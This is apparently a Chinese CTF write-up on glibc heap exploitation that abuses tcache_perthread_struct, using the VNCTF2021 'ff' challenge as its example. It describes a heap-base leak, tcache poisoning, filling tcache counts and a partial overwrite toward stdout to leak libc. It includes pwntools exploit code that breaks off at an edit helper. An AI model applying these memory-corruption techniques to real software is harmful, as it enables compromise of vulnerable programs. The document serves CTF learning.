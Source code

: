 1. 修改counts  
    之前写过一个题只让申请两个堆块，但是我们想要填满tcache来泄露libcbase,这时候可以先泄露heapbase得到tcache\_perthread\_struct的位置，修改tcache\_perthread\_struct中的counts域达到填满tcache的效果
2. 直接在tcache\_perthread\_struct里面进行堆布局

**tcache\_perthread\_struct可以被free**

例题VNCTF2021 ff
--------------

- 此题只可show一次，edit两次，因为这唯一一次show显然是泄露heapbase，泄露libcbase就需要通过打stdout来进行
- show,del,show只可对最近add的堆块进行，这是很大一个难点
- 通过edit让申请到的tcache\_perthread\_struct使0x290的tcache变满，再free掉tcache\_perthread\_struct，那么tcache\_perthread\_struct就进入了unsorted bin，这时候再分配chunk,就会切割tcache\_perthread\_struct然后向tcache\_perthread\_struct写入main\_arena附近的位置，**为了保持unsorted bin不断，相应的fd,bk都写入了unsortedbin所在的位置，再进行partial overwrite就造出了\_IO\_2\_1\_stdout**
- **通过编辑tcache\_entry \*entries\[TCACHE\_MAX\_BINS\]里面内容，相当于给tcache添加了某些chunk，但是要注意取chunk时tcache的counts要大于1**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-59f50f13f419033422613d6cf4d922bfbb89cb11.png)

- 错误分析
- 第一处申请tcache\_perthread\_struct结构时最初想这样构造，这里的错误是再add(0x70,b)会从tcache里面取chunk,修改后0x80 tcache：chunk-&gt;tcache\_perthread\_struct,但是此时0x80的counts为1，申请不出来tcache\_perthread\_struct

```python
add(0x70,'a')
    delete()
    show()
    heap_base=u64(p.recv(6).ljust(8,b'\x00'))&lt;&lt;12
    print('heapbase:',hex(heap_base))
    #覆盖key进行double free
    add(0x70,'b')
    delete()
    #tcache poison得到tcache_perthread_struct结构的counts
    edit(p64(((heap_base+0x2a0)&gt;&gt;12)^(heap_base+0x10)))
    add(0x70,'a')
    #chunk大小为0x290的tcache被填满
    add(0x70, b'\x00\x00' * 0x27 + b'\x07\x00')
```

```python
from pwn import *
from pwnlib.util.packing import p64
from pwnlib.util.packing import u64
context(os='linux', arch='amd64', log_level='debug')
file = "/home/zp9080/PWN/ff"
libc=ELF("/home/zp9080/PWN/libc-2.32.so")
elf=ELF(file)

global p
def dbg():
     gdb.attach(p,'b *$rebase(0xE5E)')

def add(size,content):
    p.sendlineafter("&gt;&gt;",str(1))
    p.sendlineafter("Size:\n",str(size))
    p.sendafter("Content:\n",content)

def delete():
    p.sendlineafter("&gt;&gt;",str(2))

def show():
    p.sendlineafter("&gt;&gt;",str(3))

def edit(content):
```